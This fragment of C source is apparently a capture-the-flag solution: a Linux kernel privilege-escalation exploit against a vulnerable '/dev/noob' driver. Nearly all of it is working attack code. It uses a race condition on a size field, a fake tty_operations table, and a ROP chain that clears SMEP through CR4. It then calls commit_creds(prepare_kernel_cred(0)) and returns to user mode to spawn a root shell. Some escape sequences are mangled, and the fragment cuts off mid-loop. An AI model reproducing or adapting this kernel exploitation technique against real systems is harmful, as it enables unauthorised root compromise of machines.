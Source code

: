 ```
        :"memory"
    );
    tf.rsp -= 4096;
    tf.rip = &amp;launch_shell;
}

uint64_t (*commit_creds)(uint64_t cred) = (void *)0xffffffff810ad430;
uint64_t (*prepare_kernel_cred)(uint64_t cred) = (void *)0xffffffff810ad7e0;

void payload(void){
    commit_creds(prepare_kernel_cred(0));
    asm("movq $tf, %rspn"
        "swapgsn"
        "iretqn");
}

struct IO_noob {
    uint64_t index;
    void *buf;
    uint64_t size;
};
struct IO_noob io;

void fake_size() {
    while(1) {
        io.size = 0x2C0; 
    }
}

int main()
{
    size_t IO_value[5] = {0};
    size_t Fake_tty_operations[0x118/8] = {0};
    Fake_tty_operations[12] = 0xffffffff8101db17;
    size_t *ROP_chain = mmap((void *)(0x8101d000), 0x1000, 7, 0x22, -1, 0); 
    if (!ROP_chain) {
        puts("mmap error");
        exit(-1); 
    }

    size_t pop_rdi_ret = 0xffffffff8107f460;
    size_t mov_cr4_rdi = 0xffffffff8101f2f0;
    size_t rop_chain[] = {
        pop_rdi_ret,
        0x6e0,
        mov_cr4_rdi,
        0,
        payload,
        0xDEADBEEF,
    };
    memcpy((void *)(0x8101db17), rop_chain, sizeof(rop_chain));

    int fd1 = open("/dev/noob", O_RDONLY);
    save_status();

    pthread_t t;
    pthread_create(&amp;t, NULL, (void*)fake_size, NULL);
    io.index = 0;
    io.buf   = IO_value;

    while (1)
    {
        io.size  = 0x10;
```